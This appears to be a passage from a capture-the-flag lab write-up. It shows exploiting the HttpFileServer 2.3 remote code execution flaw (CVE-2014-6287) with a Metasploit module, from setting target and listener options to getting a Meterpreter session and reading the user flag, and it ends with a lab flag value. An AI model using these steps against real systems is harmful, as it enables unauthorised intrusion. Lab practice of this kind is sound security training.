







It seems there is nothing particularly interesting, so we will look for any vulnerability in HttpFileServer httpd 2.3 that was reported by the Nmap scan.



It appears that a vulnerability does exist—CVE-2014-6287—which is based on a Remote Code Execution (RCE) vulnerability.

We will search for this vulnerability in Metasploit to see if it is included in its database. If it is not available, we will look for other options or download the exploit directly from the anotherone website.
```bash
$ msfconsole
$ search CVE-2014-6287
```


```bash
$ use 0
$ options 
```



The `options` command shows what the exploit requires to be executed successfully. Now we will fill in all the fields that are required.
```bash
$ set RHOST 10.129.13.50
$ set RPORT 80
$ set LHOST tun0 (you can do ipa to know your ip)
```



And this is how it looks with all the required parameters filled in.
```bash
$ run
```



It worked correctly, so we now have a Meterpreter session. With the `getuid` command, we can determine which user we are.
```bash
$ getuid
```



Now we can list the documents in this directory to search de user.txt folder to get de User Flag
```bash
$ dir
$ cat user.txt
```


```bash
User Flag → b2ce62d91215de7a9dabe38eece2e4dd
```


[Back](README.md)